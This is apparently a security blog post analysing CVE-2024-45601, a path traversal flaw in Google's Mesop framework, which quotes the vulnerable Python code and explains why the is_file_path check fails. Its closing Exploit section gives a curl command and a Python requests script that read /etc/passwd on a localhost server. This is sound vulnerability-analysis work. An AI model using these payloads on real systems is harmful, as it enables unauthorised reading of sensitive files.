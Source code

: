 ```yaml
---
layout: post
title: CVE-2024-45601 Path traversal
date: 2024-11-01
categories: ["1-Day-Analysis", "Python", "CVE-2024-45601"]
---
```


# Sumary

Path Traversal is vulnerability allow attacker able read any file on the system such as `/etc/passwd`. In the CVE-2024-45601, code use `os.path.join(os.getcwd(), path)` without any validate path, so this is lead to vulnerability path traversal. 

This is commit code for this vulnerability: [google/mesop@17fb769](https://github.com/google/mesop/commit/17fb769d6a91f0a8cbccfab18f64977b158a6a31)

# Analysis Code

In the source with input `/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>` attacker can insert with url: `/{WEB_COMPONENTS_PATH_SEGMENT}/../../../../../../../../etc/passwd` then path = `../../../../../../../../etc/passwd`.

```
@app.route(f"/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>")
  def serve_web_components(path: str):
    if not is_file_path(path):
      raise MesopException("Unexpected request to " + path)
    serving_path = (
      get_runfile_location(path)
      if has_runfiles()
      else os.path.join(os.getcwd(), path)
    )
    return send_file_compressed(
      serving_path,
      disable_gzip_cache=disable_gzip_cache,
    )
```

After, code will call function `is_file_path(path)` to check path is valid or not. 

```
def is_file_path(path: str) -> bool:
    _, last_segment = os.path.split(path)
    return "." in last_segment
```

However, function `is_file_path` is just check `.` in the path, it is not prevent vulnerability path traversal. 

Handle path

```
serving_path = (
  get_runfile_location(path)
  if has_runfiles()
  else os.path.join(os.getcwd(), path)
)
```

```
def get_runfile_location(identifier: str) -> str:
    if runfiles.Create() is None:
        current_file_dir = os.path.dirname(__file__)
        return os.path.join(
            current_file_dir, "../" + identifier[len("mesop/mesop/"):]
        )
    return runfiles.Create().Rlocation(identifier)
```

Function `get_runfile_location(identifier)` will create path base on `identifier` but not check `../` in the path. 

If `has_runfiles()` return `True` function `get_runfile_location(identifier)` will create path. However, if return `False` serving_path will create path with `os.path.join(os.getcwd(), path)` and dont have any validate. 

After serving_path is created, file will send to user via `send_file_compressed` function. If file is sensitive data, user can be read sensitive information. 

# Exploit

To the exploit vulnerability path traversal, i can use curl or code python

With curl 

```
curl -X GET "http://localhost:5000/WEB_COMPONENTS_PATH_SEGMENT/../../../../../../etc/passwd"
```

With exploit via python code: 

```
import requests

# Application URL with the path traversal endpoint
base_url = "http://localhost:5000"  
path_segment = "WEB_COMPONENTS_PATH_SEGMENT" 

# Path traversal payload
payload_path = "../../../../../../etc/passwd"

# Create the full URL with the path traversal payload
exploit_url = f"{base_url}/{path_segment}/{payload_path}"

# Send the GET request to the server
try:
    response = requests.get(exploit_url)

    # Check and print the result
    if response.status_code == 200:
        print("Path traversal successful! Contents of /etc/passwd:")
        print(response.text)
    else:
        print(f"Request failed with status code: {response.status_code}")
        print("The application may have protected against path traversal.")
except requests.exceptions.RequestException as e:
    print(f"An error occurred while sending the request: {e}")
```
